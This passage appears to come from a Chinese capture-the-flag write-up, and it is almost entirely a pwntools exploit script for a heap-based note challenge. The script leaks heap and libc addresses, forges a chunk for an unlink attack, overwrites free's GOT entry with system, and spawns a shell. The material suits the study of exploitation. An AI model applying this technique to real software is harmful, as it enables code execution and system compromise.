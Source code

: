 最后按索引表结构，进行 GOT 表劫持，把 `free` 劫持到 `system` 并 getshell。

```python
def list():
    sla(':','1')

def add(len,content='a'):
    sla(':','2')
    sla('note:',str(len))
    sa('note:',content)

def edit(index,len,content):
    sla(':','3')
    sla('number:',str(index))
    sla('note:',str(len))
    sa('note:',content)

def delete(index):
    sla(':','4')
    sla('number:',str(index))

for i in range(4):
    add(1)
delete(0)
delete(2)
add(8,'deadbeef') # 0
add(8,'deadbeef') # 2
list()
ru('0. deadbeef') # 0->bk = heap+0x1820+2*0x90
heap = uu64(ru('\n'))-0x1940
leak('heap',heap)

ru('2. deadbeef') # 2->bk = main_arena+88
base = uu64(ru('\n'))-88-libc.sym['__malloc_hook']-0x10
leak('base',base)
for i in range(3,-1,-1):
    delete(i)

# chunk0:prev_size,size,fd,bk,data
fake = flat(0,0x81,heap+0x30-0x18,heap+0x30-0x10,'a'*0x60)
# chunk1:prev_size,size,data; chunk2:prev_size,size,data
fake += flat(0x80,0x90,'a'*0x80,0,0x91,'a'*0x80)
add(len(fake),fake)
delete(1) # unlink chunk0

system = base + libc.sym['system']
# len(payload) == len(fake)
payload = flat(1,1,8,elf.got['free'],1,8,heap+0xabcd).ljust(len(fake),'a')
edit(0,len(fake),payload)
edit(0,8,p64(system))
edit(1,8,'/bin/sh\x00')
delete(1)
```
